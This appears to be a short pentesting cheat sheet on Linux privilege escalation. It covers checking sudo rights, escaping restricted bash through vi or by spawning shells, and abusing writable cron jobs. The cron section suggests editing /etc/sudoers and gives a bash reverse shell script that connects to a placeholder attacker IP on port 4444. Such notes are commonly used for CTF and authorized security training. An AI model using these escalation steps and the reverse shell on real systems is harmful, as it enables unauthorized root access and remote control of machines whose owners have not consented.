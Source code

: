 ```
```

### Shell escape
***This may needs user credentials***  
List autorisations
```bash
sudo -l  
```
 If one is here, take a look at https://gtfobins.github.io
### RBash escape
View allowed command
```bash
compgen -c
```
Escape using `vi`
```bash
vi
:set shell=/bin/sh
:shell
```
or just try to open a new shell with one of those
```bash
bash 
zsh
csh 
sh 
```
***In RBASH, some tools may be allowed and they can be useful***

### Exploiting cron jobs :
Look at active cron jobs 
```bash
cat /etc/crontab
```
We are looking for a file that is running as another user to escalate privileges
If so, put a reverse shell or update `/etc/sudoers`


***Format =# = ID***  
***m*** = Minute  
***h*** = Hour  
***dom*** = Day of the month  
***mon*** = Month  
***dow*** = Day of the week  
***user*** = What user the command will run as  
***command*** = What command should be run  
For Example :    
```
-  m   h dom mon dow user  command  
17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
### Writable Cron Jobs 
### Example 
##### Reverse shell
We edit the executed file `/tmp/rootbash` or we update `/etc/crontab`
```bash
#!/bin/bash
bash -i >& /dev/tcp/[Adresse IP]/4444 0>&1
```

